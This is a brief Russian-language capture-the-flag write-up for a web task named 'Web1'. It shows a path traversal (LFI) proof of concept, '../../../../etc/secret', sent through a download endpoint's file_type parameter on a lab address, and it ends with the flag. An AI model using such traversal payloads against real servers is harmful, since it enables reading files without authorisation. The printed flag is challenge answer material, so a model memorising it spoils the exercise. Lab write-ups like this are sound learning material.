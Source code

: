 # Web1

В исследуемом приложении находим на числе "20" ссылку:

```
http://192.168.12.10:5001/download?file_type=file1.txt
```

Пробуем применить LFI. Пользуемся тем, что file1.txt - это подсказка на /etc/secret:

```
PoC
http://192.168.12.10:5001/download?file_type=../../../../etc/secret
```
Скачиваем файл, смотрим флаг.

Флаг: `nto{P6t9_T77v6RsA1}`
